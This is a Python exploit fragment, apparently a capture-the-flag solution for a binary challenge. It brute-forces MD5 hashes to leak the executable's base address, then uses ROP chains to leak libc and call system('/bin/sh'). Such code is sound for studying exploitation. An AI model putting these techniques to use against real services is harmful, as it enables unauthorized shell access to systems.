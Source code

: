 ```py
    auth()
    assert is_logged()
    upload(4, b"toto", 4, b"hey")
    read_file(b"toto")


    """
    " leak exe
    """
    hashes = []
    for i in range(8):
        path = upload(0x20 + 8 - i, b"abcd", 1, b"x")
        hashes.append(path)

    leak = b""
    for target in hashes[::-1]:
        for bf in range(0x100):
            b = bytes([bf])
            h = hashlib.md5()
            h.update(b"abcd".ljust(0x18, b"\x00") + p64(0x21) + leak + b)
            if target == h.hexdigest().encode():
                leak += bytes([bf])
                break

    exe.address = u64(leak) - 0x142b
    print(f"exe @ {hex(exe.address)}")


    """
    " rop
    """
    exe_info = exe.address + 0xe27
    exe_main = exe.address + 0x1a33


    print(f"bss @ {hex(exe.bss())}")
    rop = ROP(exe)
    rop.raw(rop.find_gadget(["ret"])) # movaps issue
    rop.call(exe_info, [exe.got["free"]])
    # rop.raw(rop.find_gadget(["ret"])) # movaps issue
    rop.call(exe_main)

    leak = rel_write(-0x38, rop.chain())
    leak = u64(leak.ljust(8, b"\x00"))

    print(f"free @ {hex(leak)}")

    libc.address = leak - libc.sym["free"]
    print(f"libc @ {hex(libc.address)}")


    rop = ROP(libc)
    # rop.raw(rop.find_gadget(["ret"])) # movaps issue
    rop.call("system", [next(libc.search(b"/bin/sh\x00"))])
    rel_write(-0x38, rop.chain(), pwned=True)
    # rel_write(0x1078, rop.chain(), pwned=True)

    """
    " leak stack
    """
    # leak = rel_write(0x1030, b"X") # remove null byte from filename_hash -> leak
    # if args.GDB:
        # leak = (u64(leak[33:].ljust(8, b"\x00")) << 8) | int(input("byte: "), 16)
```